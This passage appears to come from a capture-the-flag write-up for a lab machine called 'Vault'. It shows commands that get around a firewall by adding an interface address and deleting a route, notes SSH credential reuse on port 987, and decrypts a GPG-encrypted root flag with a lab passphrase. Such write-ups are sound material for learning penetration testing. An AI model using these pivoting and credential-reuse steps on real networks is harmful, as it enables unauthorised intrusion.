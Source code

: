 All the traffic to the Vault was passing trough the  `192.168.122.5` firewall. 

Bypassing firewall was easy. All I had to do was adding another IP adress to the same interface and remove that routing. Then, running a basic scan on this target to unveil the `987/tcp` port wich was exposing a ssh service that was using the same credential then the DNS box.

```
root@DNS:# route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun0
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun1
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun2
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun3
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun4
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun5
192.168.5.0     192.168.122.5   255.255.255.0   UG    0      0        0 ens3
192.168.122.0   *               255.255.255.0   U     0      0        0 ens3

root@DNS:# ip address add 192.168.5.137/24 dev ens3
root@DNS:# route del -net 192.168.5.0 netmask 255.255.255.0 gw 192.168.122.5
root@DNS:# ping 192.168.5.2
PING 192.168.5.2 (192.168.5.2) 56(84) bytes of data.
64 bytes from 192.168.5.2: icmp_seq=1 ttl=64 time=1.56 ms
```

Welcome to the Vault!
=====================

To complete the box, you had to `scp` the `root.txt.gpg` back to the ubuntu box and pass the key `itscominghome`. ;)

```
You need a passphrase to unlock the secret key for
user: "david <dave@david.com>"
4096-bit RSA key, ID D1EB1F03, created 2018-07-24 (main key ID 0FDFBFE4)

gpg: encrypted with 4096-bit RSA key, ID D1EB1F03, created 2018-07-24
      "david <dave@david.com>"
      gpg: .srb: unknown suffix
      Enter new filename [root.txt]: root.txt

cat root.txt 
ca4********************819
```
